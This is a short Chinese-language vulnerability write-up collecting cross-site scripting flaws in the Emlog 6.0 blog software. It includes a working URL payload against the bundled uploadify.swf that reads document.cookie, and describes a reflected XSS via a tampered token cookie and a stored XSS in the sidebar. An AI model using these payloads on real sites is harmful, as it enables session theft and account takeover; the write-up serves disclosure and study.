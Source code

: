Emlog 6.0 xss集合
=================

一、漏洞简介
------------

二、漏洞影响
------------

Emlog 6.0

三、复现过程
------------

### Uploadify SWF XSS

Emlog使用了 uploadify.swf 的方式上传文件，文件路径
/include/lib/js/uploadify/uploadify.swf

payload

    http://www.0-sec.org/include/lib/js/uploadify/uploadify.swf?uploadifyID=00%22%29%29;}catch%28e%29{alert%281%29;}//%28%22&movieName=%22])}catch(e){if(!window.x){window.x=1;alert(document.cookie)}}//&.swf

效果，可无视浏览器filter：

![](/Users/aresx/Documents/VulWiki/.resource/Emlog6.0xss集合/media/rId25.png)

### 反射xss

此处的XSS主要发生在cookie上，因为某些页面如
admin/admin\_log,admin/sort.php,admin/link.php页面需要在表单中添加了hidden属性的token值，而这个token值直接从用户的cookie中取得，导致了一个反射型XSS

拦截抓包修改cookie中的token值如下：

![](/Users/aresx/Documents/VulWiki/.resource/Emlog6.0xss集合/media/rId27.png)

效果：

![](/Users/aresx/Documents/VulWiki/.resource/Emlog6.0xss集合/media/rId28.png)

### 侧边栏存储性XSS

为了同样是为了支持HTML代码的输出，没有转义对应的脚本代码标签，导致了存储性的XSS存在

![](/Users/aresx/Documents/VulWiki/.resource/Emlog6.0xss集合/media/rId30.png)

